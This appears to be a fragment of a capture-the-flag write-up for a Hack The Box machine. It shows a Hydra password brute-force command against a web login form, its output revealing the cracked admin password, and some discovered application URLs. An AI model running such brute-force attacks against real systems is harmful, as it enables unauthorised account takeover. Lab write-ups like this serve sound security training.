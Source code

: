 

```
# hydra -l none -P rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -t 64 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-24 05:01:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[80][http-post-form] host: 10.10.10.43   login: none   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-24 05:02:30
```
=> admin:1q2w3e4r5t

=> http://nineveh.htb/department/manage.php

### http://nineveh.htb/department/manage.php


### http://nineveh.htb/department/manage.php?notes=files/ninevehNotes.txt




## https://10.10.10.43/

![](img/https_10.10.10.43.png)
